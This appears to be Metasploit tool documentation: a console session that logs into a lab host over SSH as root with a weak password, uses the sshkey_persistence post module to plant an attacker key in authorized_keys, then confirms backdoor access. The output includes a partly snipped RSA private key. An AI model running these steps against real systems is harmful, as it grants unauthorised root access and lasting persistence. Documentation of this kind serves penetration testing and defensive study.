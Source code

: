     msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set username root
    username => root
    msf auxiliary(ssh_login) > set password password
    password => password
    msf auxiliary(ssh_login) > set rhosts 192.168.2.143
    rhosts => 192.168.2.143
    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'root:password' 'uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 Linux localhost.homeGroup 3.11.10-301.fc20.x86_64 #1 SMP Thu Dec 5 14:01:17 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.229:35460 -> 192.168.2.143:22) at 2016-06-19 20:27:53 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Use the post module to write the ssh key

    msf auxiliary(ssh_login) > use post/linux/manage/sshkey_persistence 
    msf post(sshkey_persistence) > set session 1
    session => 1
    msf post(sshkey_persistence) > set verbose true
    verbose => true
    msf post(sshkey_persistence) > set user root
    user => root
    msf post(sshkey_persistence) > exploit
    
    [*] Checking SSH Permissions
    [*] Authorized Keys File: .ssh/authorized_keys
    [*] Added User SSH Path: /root/.ssh
    [+] Storing new private key as /root/.msf4/loot/20160619202835_default_192.168.2.143_id_rsa_458964.txt
    [*] Creating /root/.ssh/authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1456 bytes (octal-encoded), using printf
    [+] Key Added
    [!] No active DB -- Credential data will not be saved!
    [*] Post module execution completed

Verify our access works

    msf post(sshkey_persistence) > use auxiliary/scanner/ssh/ssh_login_pubkey 
    msf auxiliary(ssh_login_pubkey) > set rhosts 192.168.2.143
    rhosts => 192.168.2.143
    msf auxiliary(ssh_login_pubkey) > set key_path /root/.msf4/loot/
    key_path => /root/.msf4/loot/
    msf auxiliary(ssh_login_pubkey) > set username root
    username => root
    msf auxiliary(ssh_login_pubkey) > run
    
    [*] 192.168.2.143:22 SSH - Testing Cleartext Keys
    [*] SSH - Testing 2 keys from /root/.msf4/loot
    [!] No active DB -- Credential data will not be saved!
    [+] SSH - Success: 'root:-----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEAx5LLnAOPzc5KSI/Zd71bdHlexQrIpuASjUIGnJjlJVB9Sfyz
    ...snip...
    vtOaL6/NsfxFDDrCBX72X5tv3rTA4MNzOFTYbCM80Ln6E2TDWgPv
    -----END RSA PRIVATE KEY-----
    ' 'uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 Linux localhost.homeGroup 3.11.10-301.fc20.x86_64 #1 SMP Thu Dec 5 14:01:17 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux '
    [*] Command shell session 2 opened (192.168.2.229:35751 -> 192.168.2.143:22) at 2016-06-19 20:31:23 -0400
    [*] Scanned 1 of 1 hosts (100% complete)